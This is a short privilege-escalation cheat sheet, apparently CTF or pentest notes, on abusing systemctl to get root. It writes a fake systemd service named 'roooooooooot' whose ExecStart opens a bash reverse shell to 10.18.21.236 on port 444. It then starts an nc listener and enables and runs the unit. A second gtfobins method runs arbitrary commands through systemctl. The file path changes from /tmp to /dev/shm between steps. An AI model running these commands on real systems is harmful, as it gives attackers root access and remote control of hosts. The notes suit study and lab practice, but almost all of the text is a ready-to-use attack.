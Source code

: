 
Make a fake service
```sh
cat > /tmp/root.service << EOF
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.18.21.236/444 0>&1'

[Install]
WantedBy=multi-user.target
EOF
```

Start nc listener
```sh
nc -lvnp 444
```

Enable and start it
```sh
/bin/systemctl enable /dev/shm/root.service
Created symlink from /etc/systemd/system/multi-user.target.wants/root.service to /dev/shm/root.service
Created symlink from /etc/systemd/system/root.service -> /dev/shm/root.service

/bin/systemctl start root
```


Alternative from gtfobins
```sh
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /tmp/output"
[Install]
WantedBy=multi-user.target' > $TF
./systemctl link $TF
./systemctl enable --now $TF
```

